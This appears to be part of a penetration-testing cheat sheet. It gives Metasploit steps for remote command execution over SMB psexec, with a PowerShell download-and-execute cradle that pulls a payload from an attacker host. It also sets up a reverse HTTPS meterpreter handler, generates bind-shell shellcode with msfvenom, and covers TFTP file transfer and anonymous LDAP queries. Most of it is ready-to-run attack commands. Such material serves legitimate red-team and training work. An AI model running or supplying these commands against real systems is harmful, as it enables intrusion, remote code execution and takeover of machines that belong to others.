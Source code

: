 1) Set up psexec module on metasploit

   ```bash
   metasploit> use auxiliary/admin/smb/psexec_command
   metasploit> set command powershell \
                   -Exec Bypass \
                   -NoL \
                   -NoProfile \
                   -Command IEX (New-Object Net.WebClient).DownloadString(\'http://192.168.0.9/payload\')
   ```
   
1) Start reverse Handler to catch the reverse connection

   Module options (exploit/multi/handler):
   Payload options (windows/meterpreter/reverse_https):

   ```bash
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique: seh, thread, process, none
   LHOST     192.168.0.9      yes       The local listener hostname
   LPORT     443              yes       The local listener port
   ```
   
1) Show evasion module options

   ```bash
   metasploit> show evasion
   ```

### Metasploit Shellcode

```
$ msfvenom -p windows/shell_bind_tcp -b '\x00\x0a\x0d'
```

## File Transfer Services

Start TFTPD Server
```bash
$ atftpd --daemon --port 69 /tmp
```

Connect to TFTP Server
```bash
$ tftp 192.168.0.10
tftp> put / get files
```

## LDAP Querying

Tools:
ldapsearch
LDAPExplorertool2

Anonymous Bind:
ldapsearch -h ldaphostname -p 389 -x -b "dc=domain,dc=com"

